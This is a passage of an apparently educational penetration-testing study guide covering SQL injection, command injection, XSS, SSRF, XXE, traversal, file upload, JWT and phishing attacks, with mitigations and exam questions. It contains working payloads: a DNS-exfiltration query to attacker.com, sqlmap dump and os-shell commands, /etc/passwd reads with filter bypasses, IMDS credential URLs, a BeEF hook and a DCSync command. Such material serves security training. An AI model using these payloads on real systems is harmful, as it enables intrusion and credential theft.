**Out-of-band (DNS exfil):**
```sql
' OR (SELECT LOAD_FILE(CONCAT('\\\\',version(),'.attacker.com\\a')))--
```

**sqlmap:**
```bash
sqlmap -u 'https://t/a?id=1' --batch --level 5 --risk 3 --dbs
sqlmap -r request.txt --batch --dump -D appdb -T users
sqlmap -u 'https://t/a?id=1' --os-shell         # if DB has SYSTEM-level and FS writes
```

### Command injection and code-execution sinks

Unsanitized input reaching a shell-invoking or code-interpreting API gives RCE. The language-specific "red flag" functions below are what you look for during source review or black-box fuzzing. All function names are written with a space or concatenation notation so this teaching text doesn't read as actual code.

- **PHP shell sinks** — the `shell_` + `exec` function, the `sys` + `tem` function, the `pass` + `thru` function, the backtick string operator, the `pop` + `en` function. PHP code-execution sinks — the `e` + `val` function (runs PHP from a string), the `as` + `sert` function (with string arg, evaluates PHP), `pre` + `g_replace` with deprecated `/e` flag, `cre` + `ate_function`, `include` / `require` with user-controlled path.
- **Python shell sinks** — the `os.sys` + `tem` call, `os.p` + `open`, the `sub` + `process` module with `shell=True`. Python code-execution sinks — the `e` + `val` builtin, the `ex` + `ec` builtin, `pic` + `kle.loads` (deserializes any class), `ya` + `ml.load` without `SafeLoader`, `jin` + `ja2.Template.render` with unescaped user input (SSTI).
- **Node.js** — `child_process` module's shell-spawning calls (`e` + `xec` / `exec` + `Sync` variants), template-string `vm.runInNewContext`, the `e` + `val` function, dynamic `require()` on user input.
- **Ruby** — backtick string operator, the `sys` + `tem` method, `Kernel` module's `e` + `val`, the `se` + `nd` method with user-controlled name, `Mar` + `shal.load` (deserialization RCE).
- **Java** — `Runtime.getRuntime` dot `e` + `xec`, `ProcessBuilder`, `ScriptEngine` evaluate methods, Apache Commons Collections deserialization, `ObjectInputStream` unsafe readObject, Spring EL injection, JNDI / LDAP lookup on user input (log4shell family).
- **Go** — `os/exec` package's `Command` with shell semantics; `text/template` on untrusted input (Go templates can read any exported field); `encoding/gob` decoders.

**Injection examples (classic):**
```
; ls /etc
| cat /etc/passwd
&& id
`id`
$(id)
\n id \n
```

Filter bypass:
```
c'a't /etc/passwd
c$u$a$t /etc/passwd
{cat,/etc/passwd}
cat${IFS}/etc/passwd
${PATH:0:1}etc${PATH:0:1}passwd    # /etc/passwd built from $PATH
```

### XSS (Cross-Site Scripting)

- **Reflected** — user input reflected into response immediately.
- **Stored** — user input saved (DB, filesystem) and served to other users.
- **DOM-based** — client-side JS writes user-controlled data into the DOM unsafely.

Classic payload sketches (escape into an HTML context that runs script):
```html
<script>alert 1</script>

<svg/onload=alert-1>
"autofocus onfocus=alert-1 x=
```

Exploit goal — session token theft. Common patterns use `fetch` or a dynamically-constructed `Image` element to ship the cookie to attacker-controlled infrastructure. The victim's browser emits a request to the attacker's log endpoint with the cookie as a query-string parameter.

Mitigations: **httpOnly cookies** (JS can't read), **SameSite=Lax/Strict**, **CSP** (`script-src 'self'` blocks inline), **Trusted Types** (Chromium).

### SSRF (A10)

Attacker-controlled URL fetched by the server. Pivots into internal networks (cloud IMDS, internal admin consoles, DBs).

**AWS IMDS classic:**
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>
```

**IMDSv2** required session-token header — much harder to SSRF blindly. Defense: make v2 required.

### XXE (XML External Entity)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

Blind XXE via out-of-band DTD hosted on attacker. Defense: disable DTD processing.

### Directory traversal

```
GET /view?file=../../etc/passwd
GET /view?file=....//....//etc/passwd     (filter bypass)
GET /view?file=%2e%2e%2f%2e%2e%2fetc%2fpasswd    (URL encoded)
GET /view?file=..%252f..%252fetc%252fpasswd       (double encoded)
```

### File upload attacks

- Upload `shell.php` when server only checks extension → rename to `shell.php.png` → `shell.phtml` → null-byte `shell.php%00.png` (legacy).
- Upload `.htaccess` turning arbitrary extension into PHP.
- Polyglot (valid JPG that's also valid PHP).
- JSP / WAR upload to Tomcat manager or exploded WebApps dir.

### IDOR (Insecure Direct Object Reference)

```
GET /api/invoice/1001
GET /api/invoice/1002     # <-- another user's invoice
```

Enumeration + lack of authorization check.

### JWT attacks

- **`alg: none`** — server accepts unsigned token.
- **Weak HMAC secret** — crack with hashcat mode `16500` and wordlist.
- **Algorithm confusion (RS256 → HS256)** — sign with public key as HMAC secret if server allows.
- **`kid` injection / path traversal** — manipulate key lookup.

### Tooling

- **Burp Suite** — intercepting proxy, scanner (Pro), Intruder, Repeater.
- **OWASP ZAP** — open-source equivalent.
- **Nikto** — web server known-issue scanner.
- **WPScan** — WordPress vulns + user enum.
- **ffuf / gobuster** — directory and parameter fuzzing.

---

## 28. Client-Side / Social Engineering {#client-side}

Pushing the attack surface from server-facing to user-facing.

### Phishing vectors (T1566)

- **Spearphishing link (T1566.002)** — crafted URL leading to credential harvest or exploit landing page.
- **Spearphishing attachment (T1566.001)** — maldoc, PDF, ISO, LNK, HTA.
- **Spearphishing service (T1566.003)** — via LinkedIn message, Teams, etc.

### Maldoc evolution

- **Macro-enabled Office** (`.docm`, `.xlsm`) — classic VBA `AutoOpen` / `Document_Open` → shell command.
- **Excel 4.0 (XLM) macros** — older macro language, different scan surface.
- **OLE embeds** — embedded object that prompts run.
- **DDE (Dynamic Data Exchange)** — `{DDEAUTO}` field in a .docx launching cmd. Patched by default 2017+.
- **HTML Smuggling (T1027.006)** — JS in an HTML email reconstructs a payload from base64 chunks on the client, evading mail gateway scans.
- **ISO / IMG container abuse** — modern tradecraft: email delivers a tiny ISO with an LNK inside that launches PowerShell. ISO bypasses Mark-of-the-Web and some AV scanning.
- **OneNote `.one` with embedded script** — a 2022–2023 trend after Microsoft disabled internet-macro defaults.

### Social Engineer Toolkit (SET)

```bash
setoolkit
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack
# 2) Site Cloner
# Target: https://corp.com/login
# Listener: 10.0.0.5
```

Generates a clone page with posted credentials logged locally.

### Browser exploitation

- **BeEF (Browser Exploitation Framework)** — hooks browsers via `hook.js`; controls them from a dashboard. Classic stored XSS → `<script src=//beef/hook.js></script>`.
- **Drive-by (T1189)** — watering-hole or malvertising; exploit visited via browser RCE (now mostly iOS/Android zero-days and handful of Chrome/Firefox chains).
- **Client-side fingerprinting** — filter by user-agent / OS / region before delivering payload.

### Operation Aurora (case study)

2009–2010 Google, Adobe, Juniper, others compromised by CNG "APT1"-era actor via:
1. Spearphish link to a watering-hole.
2. IE 6 use-after-free 0-day.
3. Dropper → C2 → credential and source-code theft.

Key lessons:
- Browser attack surface dominated the initial-access story of that era.
- Source-code theft was the strategic goal, not ransomware / impact.
- Led to Google's public disclosure and eventual exit from China.

### Defenses

- **ASR rules (Attack Surface Reduction)** — block Office child processes, block Win32 API calls from macros, block executable content from email.
- **Mark of the Web enforcement** — Office opens MOTW'd files in Protected View.
- **LaunchActionsOnly=0 policy** — neuter PDF JS launching.
- **Disable macros from the internet** (Microsoft default since 2022).
- **Web proxy / email gateway** — URL rewriting, attachment detonation.
- **MFA** — even if credentials are harvested, MFA challenges.
- **User training + reporting button** — "Report Phish" in Outlook feeds the SOC.

---

## Exam-testable concepts

- What Nmap flag is the half-open TCP scan? **`-sS`.**
- Which is noisier — `-sS` or `-sT`? **`-sT` (full connect — logged syscalls).**
- What does `-Pn` do? **Skip host discovery; treat target as alive.**
- What Nmap output format is machine-parseable? **`-oX`** (XML).
- What port state means "firewall likely dropping packets"? **filtered.**
- What tactic is initial access under in MITRE ATT&CK? **TA0001 Initial Access.**
- What MITRE ATT&CK tactic covers keeping access across reboots? **TA0003 Persistence.**
- Which MITRE ATT&CK tactic is the mission payoff — destruction, disruption, denial? **TA0040 Impact.**
- A Little Endian stack BOF on x64 targets what saved register? **Saved RIP (return address on stack).**
- What is the CWE for a format-string vulnerability? **CWE-134.**
- What SAM hash is LM, and what breaks it fast? **LM hash — DES over uppercase first 7 chars; rainbow-table trivial.**
- What Mimikatz command performs DCSync? **`lsadump::dcsync /user:corp\\krbtgt`.**
- What Hashcat mode is NTLM? **`-m 1000`.**
- What Hashcat mode is Net-NTLMv2? **`-m 5600`.**
- What Hashcat mode is Kerberoast RC4-HMAC? **`-m 13100`.**
- What Hashcat mode is bcrypt? **`-m 3200`.**
- What Hashcat mode is `sha512crypt` (modern Linux shadow)? **`-m 1800`.**
- What is the Cisco IOS Type 7 password algorithm? **XOR with a static Cisco-provided key — reversible.**
- What registry run key persists for current user? **`HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.**
- What WMI method hides a payload fileless, driven by event subscriptions? **`__EventFilter` + `CommandLineEventConsumer` + `__FilterToConsumerBinding`.**
- What does the **Golden Ticket** forge, and what hash is needed? **A TGT for any account, signed with the krbtgt NTLM hash.**
- What does the **Silver Ticket** forge? **A TGS for a specific service, signed with that service account's hash.**
- What Defender feature isolates LSASS? **Credential Guard (VBS / HVCI).**
- What does Responder do? **Answers LLMNR / NBT-NS / mDNS requests to capture Net-NTLM hashes.**
- What does `ntlmrelayx` do? **Relays captured NTLM authentications to other NTLM-accepting endpoints (SMB, LDAP, HTTP, ADCS) that don't require signing.**
- What CVE is EternalBlue? **MS17-010 / CVE-2017-0144 — SMBv1 remote code execution.**
- What CVE is Zerologon? **CVE-2020-1472 — Netlogon elevation.**
- What CVE is PrintNightmare? **CVE-2021-34527 (and CVE-2021-1675).**
- What CVE is the polkit pkexec bug? **CVE-2021-4034 (PwnKit).**
- What CVE is DirtyPipe? **CVE-2022-0847.**
- What Linux binary enumeration tool maps SUID findings against a database of known escalation gadgets? **GTFOBins.**
- What is the equivalent catalog for Windows LOLBins? **LOLBAS.**
- What tool converts unshadowed passwd+shadow into a crackable format for John? **`unshadow`.**
- What is ARP poisoning's mitigation on a switch? **Dynamic ARP Inspection (DAI) with DHCP snooping.**
- What is IMDSv2's improvement over IMDSv1? **Required session-token header — prevents blind SSRF from returning credentials.**
- What is the OWASP Top 10 2021 A01? **Broken Access Control.**
- What SSRF pivot target is classic on AWS? **`169.254.169.254` IMDS.**
- What tactic does phishing live under in ATT&CK? **T1566 under Initial Access (TA0001).**
- What authority governs DoD military operations in cyberspace? **Title 10 U.S.C.**
- What authority governs covert intelligence activities? **Title 50 U.S.C.** (covert action requires presidential finding + Gang of Eight notification).
- What DoD act prevents active-duty military from performing domestic law enforcement? **Posse Comitatus Act (18 U.S.C. §1385).**

---

## Cross-references

- **[Nmap Reference Guide](https://nmap.org/book/man.html)** — authoritative
- **[NIST SP 800-115](https://csrc.nist.gov/pubs/sp/800/115/final)** — pen-test methodology
- **[MITRE ATT&CK](https://attack.mitre.org/matrices/enterprise/)** — techniques framework
- **[GTFOBins](https://gtfobins.github.io/)** — Linux SUID / sudo escalation gadgets
- **[LOLBAS](https://lolbas-project.github.io/)** — Windows living-off-the-land binaries
- **[HackTricks](https://book.hacktricks.xyz/)** — community pentest reference
- **[OWASP Top 10](https://owasp.org/Top10/)** — web app risk framework
- **[BOOK-GRAY-HAT-6](#references/BOOK-GRAY-HAT-6)** (on disk) — ethical hacking textbook
- **[BOOK-GOOGLE-HACKING](#references/BOOK-GOOGLE-HACKING)** (on disk) — OSINT via search engines
- **JCAC-NETWORKING** — the protocols you enumerate
- **JCAC-PROTOCOL-ANALYSIS** — deep packet inspection of post-exploit traffic
- **JCAC-WINDOWS** — Active Directory structure (mandatory background for §22)
- **JCAC-UNIX-LINUX** — file system and permissions (mandatory background for §14)
- **JCAC-COMP-ORG-ARCH** — x86 / ARM mechanics behind BOF primitives
